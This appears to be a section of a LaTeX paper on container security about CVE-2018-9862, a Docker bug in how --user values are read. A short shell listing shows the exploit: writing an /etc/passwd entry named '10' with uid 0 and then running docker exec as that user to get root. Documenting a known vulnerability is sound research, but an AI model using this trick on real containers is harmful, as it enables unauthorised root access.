 \subsection{CVE--2018--9862}
Docker did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2018-9862-Github}. This can be misused using the first entry of \lstinline{/etc/passwd}. This allows malicious images be created with users that grant \lstinline{root} rights when used.

\begin{lstlisting}[caption={Overwrite the \lstinline{root} user in a container.},captionpos=b]
(host)$ docker run --rm -ti ... ubuntu bash
(cont)# echo "10:x:0:0:root:/root:/bin/bash" > /etc/passwd
(host)$ docker exec -ti -u 10 hello  bash
(cont)# id
uid=0(10) gid=0(root) groups=0(root)
\end{lstlisting}
